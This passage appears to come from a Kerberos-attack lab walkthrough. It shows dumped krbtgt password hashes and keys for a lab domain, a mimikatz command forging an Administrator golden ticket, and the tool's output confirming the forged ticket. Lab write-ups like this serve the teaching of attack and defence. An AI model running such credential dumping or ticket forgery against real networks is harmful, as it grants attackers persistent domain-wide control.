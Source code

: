 ```
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdf
df /id:500
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 11/20/2020 2:57:52 PM ; 11/18/2030 2:57:52 PM ; 11/18/2030 2:57:52 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

```